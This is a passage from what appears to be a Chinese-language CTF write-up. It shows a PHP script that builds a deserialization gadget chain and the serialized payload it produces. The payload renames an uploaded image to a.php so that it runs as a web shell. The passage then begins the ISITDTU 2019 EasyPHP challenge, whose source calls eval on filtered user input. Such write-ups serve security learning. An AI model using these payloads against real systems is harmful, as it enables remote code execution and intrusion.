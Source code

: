 ```php
  //     'filename_tmp' => 'xx',
  //     'filename' => 'yy'
  //   );

  // }

  class Register extends Controller{

    public $checker;
    public $registed = false;
  }
}

namespace {

$b = new app\web\controller\Profile();

$a = new app\web\controller\Register();
$a->checker = $b;

echo serialize($a);

}
```

网上有人将两个属性写到 except 数组里面, 然后通过 \_\_get 方法获取, 实际上没有必要, 相关代码我写在注释里面了

```php
O:27:"app\web\controller\Register":2:{s:7:"checker";O:26:"app\web\controller\Profile":5:{s:7:"checker";b:0;s:3:"ext";b:1;s:12:"filename_tmp";s:86:"../public/upload/c47b21fcf8f0bc8b3920541abd8024fd/fb5c81ed3a220004b71069645f112867.png";s:8:"filename";s:55:"../public/upload/c47b21fcf8f0bc8b3920541abd8024fd/a.php";s:5:"index";s:10:"upload_img";}s:8:"registed";b:0;}
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211142031360.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211142035504.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211142035380.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211142036814.png)

## [ISITDTU 2019]EasyPHP

```php
<?php
highlight_file(__FILE__);

$_ = @$_GET['_'];
if ( preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', $_) )
    die('rosé will not do it');

if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )
    die('you are so close, omg');

eval($_);
?>
```
